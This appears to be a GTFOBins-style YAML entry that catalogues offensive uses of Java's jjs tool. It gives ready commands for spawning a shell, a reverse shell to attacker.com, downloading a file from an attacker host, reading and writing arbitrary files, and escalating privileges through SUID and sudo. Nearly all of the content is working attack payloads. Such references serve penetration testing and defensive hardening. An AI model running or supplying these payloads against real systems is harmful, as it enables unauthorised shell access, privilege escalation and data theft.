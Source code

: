 ```yaml
---
name: jjs
description: This tool is installed starting with Java SE 8.
functions:
  shell:
    - code: echo "Java.type('java.lang.Runtime').getRuntime().exec('/bin/sh -c \$@|sh _ echo sh <$(tty) >$(tty) 2>$(tty)').waitFor()" | jjs
  reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        echo 'var host=Java.type("java.lang.System").getenv("RHOST");
        var port=Java.type("java.lang.System").getenv("RPORT");
        var ProcessBuilder = Java.type("java.lang.ProcessBuilder");
        var p=new ProcessBuilder("/bin/bash", "-i").redirectErrorStream(true).start();
        var Socket = Java.type("java.net.Socket");
        var s=new Socket(host,port);
        var pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();
        var po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){ while(pi.available()>0)so.write(pi.read()); while(pe.available()>0)so.write(pe.read()); while(si.available()>0)po.write(si.read()); so.flush();po.flush(); Java.type("java.lang.Thread").sleep(50); try {p.exitValue();break;}catch (e){}};p.destroy();s.close();' | jjs
  file-download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=file_to_save
        echo "var URL = Java.type('java.net.URL');
        var ws = new URL('$URL');
        var Channels = Java.type('java.nio.channels.Channels');
        var rbc = Channels.newChannel(ws.openStream());
        var FileOutputStream = Java.type('java.io.FileOutputStream');
        var fos = new FileOutputStream('$LFILE');
        fos.getChannel().transferFrom(rbc, 0, Number.MAX_VALUE);
        fos.close();
        rbc.close();" | jjs
  file-write:
    - code: |
        echo 'var FileWriter = Java.type("java.io.FileWriter");
        var fw=new FileWriter("./file_to_write");
        fw.write("DATA");
        fw.close();' | jjs
  file-read:
    - code: |
        echo 'var BufferedReader = Java.type("java.io.BufferedReader");
        var FileReader = Java.type("java.io.FileReader");
        var br = new BufferedReader(new FileReader("file_to_read"));
        while ((line = br.readLine()) != null) { print(line); }' | jjs
  suid:
    - description: This has been found working in macOS but failing on Linux systems.
      code: echo "Java.type('java.lang.Runtime').getRuntime().exec('/bin/sh -pc \$@|sh\${IFS}-p _ echo sh -p <$(tty) >$(tty) 2>$(tty)').waitFor()" | ./jjs
  sudo:
    - code: echo "Java.type('java.lang.Runtime').getRuntime().exec('/bin/sh -c \$@|sh _ echo sh <$(tty) >$(tty) 2>$(tty)').waitFor()" | sudo jjs
---
```

